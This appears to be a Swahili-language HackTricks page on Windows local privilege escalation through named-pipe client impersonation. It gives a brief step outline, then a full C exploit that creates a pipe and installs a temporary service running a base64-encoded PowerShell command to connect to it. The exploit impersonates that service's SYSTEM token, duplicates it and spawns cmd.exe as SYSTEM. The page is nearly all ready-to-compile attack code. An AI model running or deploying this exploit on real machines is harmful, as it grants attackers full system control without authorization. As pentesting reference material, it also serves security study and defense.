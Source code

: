 {{#include ../../banners/hacktricks-training.md}}

**Mchakato wa msimbo:**

1. Unda Pipe mpya
2. Unda na anzisha huduma ambayo itakuwa na uhusiano na pipe iliyoundwa na kuandika kitu. Msimbo wa huduma utaendesha msimbo huu wa PS ulioandikwa: `$pipe = new-object System.IO.Pipes.NamedPipeClientStream("piper"); $pipe.Connect(); $sw = new-object System.IO.StreamWriter($pipe); $sw.WriteLine("Go"); $sw.Dispose();`
3. Huduma inapata data kutoka kwa mteja kwenye pipe, inaita ImpersonateNamedPipeClient na inasubiri huduma ikamilike
4. Hatimaye, inatumia token iliyopatikana kutoka kwa huduma kuanzisha _cmd.exe_ mpya

> [!WARNING]
> Ikiwa huna ruhusa za kutosha, exploit inaweza kukwama na kamwe isirudi.
```c
#include <windows.h>
#include <time.h>

#pragma comment (lib, "advapi32")
#pragma comment (lib, "kernel32")

#define PIPESRV "PiperSrv"
#define MESSAGE_SIZE 512

int ServiceGo(void) {

SC_HANDLE scManager;
SC_HANDLE scService;

scManager = OpenSCManager(NULL, SERVICES_ACTIVE_DATABASE, SC_MANAGER_ALL_ACCESS);

if (scManager == NULL) {
return FALSE;
}

// create Piper service
scService = CreateServiceA(scManager, PIPESRV, PIPESRV, SERVICE_ALL_ACCESS, SERVICE_WIN32_OWN_PROCESS,
SERVICE_DEMAND_START, SERVICE_ERROR_NORMAL,
"C:\\Windows\\\System32\\cmd.exe /rpowershell.exe -EncodedCommand JABwAGkAcABlACAAPQAgAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEkATwAuAFAAaQBwAGUAcwAuAE4AYQBtAGUAZABQAGkAcABlAEMAbABpAGUAbgB0AFMAdAByAGUAYQBtACgAIgBwAGkAcABlAHIAIgApADsAIAAkAHAAaQBwAGUALgBDAG8AbgBuAGUAYwB0ACgAKQA7ACAAJABzAHcAIAA9ACAAbgBlAHcALQBvAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ASQBPAC4AUwB0AHIAZQBhAG0AVwByAGkAdABlAHIAKAAkAHAAaQBwAGUAKQA7ACAAJABzAHcALgBXAHIAaQB0AGUATABpAG4AZQAoACIARwBvACIAKQA7ACAAJABzAHcALgBEAGkAcwBwAG8AcwBlACgAKQA7AA==",
NULL, NULL, NULL, NULL, NULL);

if (scService == NULL) {
//printf("[!] CreateServiceA() failed: [%d]\n", GetLastError());
return FALSE;
}

// launch it
StartService(scService, 0, NULL);

// wait a bit and then cleanup
Sleep(10000);
DeleteService(scService);

CloseServiceHandle(scService);
CloseServiceHandle(scManager);
}

int main() {

LPCSTR sPipeName = "\\\\.\\pipe\\piper";
HANDLE hSrvPipe;
HANDLE th;
BOOL bPipeConn;
char pPipeBuf[MESSAGE_SIZE];
DWORD dBRead = 0;

HANDLE hImpToken;
HANDLE hNewToken;
STARTUPINFOA si;
PROCESS_INFORMATION pi;

// open pipe
hSrvPipe = CreateNamedPipeA(sPipeName, PIPE_ACCESS_DUPLEX, PIPE_TYPE_MESSAGE | PIPE_WAIT,
PIPE_UNLIMITED_INSTANCES, 1024, 1024, 0, NULL);

// create and run service
th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)ServiceGo, NULL, 0, 0);

// wait for the connection from the service
bPipeConn = ConnectNamedPipe(hSrvPipe, NULL);
if (bPipeConn) {
ReadFile(hSrvPipe, &pPipeBuf, MESSAGE_SIZE, &dBRead, NULL);

// impersonate the service (SYSTEM)
if (ImpersonateNamedPipeClient(hSrvPipe) == 0) {
return -1;
}

// wait for the service to cleanup
WaitForSingleObject(th, INFINITE);

// get a handle to impersonated token
if (!OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &hImpToken)) {
return -2;
}

// create new primary token for new process
if (!DuplicateTokenEx(hImpToken, TOKEN_ALL_ACCESS, NULL, SecurityDelegation,
TokenPrimary, &hNewToken)) {
return -4;
}

//Sleep(20000);
// spawn cmd.exe as full SYSTEM user
ZeroMemory(&si, sizeof(si));
si.cb = sizeof(si);
ZeroMemory(&pi, sizeof(pi));
if (!CreateProcessWithTokenW(hNewToken, LOGON_NETCREDENTIALS_ONLY, L"cmd.exe", NULL,
NULL, NULL, NULL, (LPSTARTUPINFOW)&si, &pi)) {
return -5;
}

// revert back to original security context
RevertToSelf();

}

return 0;
}
```
{{#include ../../banners/hacktricks-training.md}}
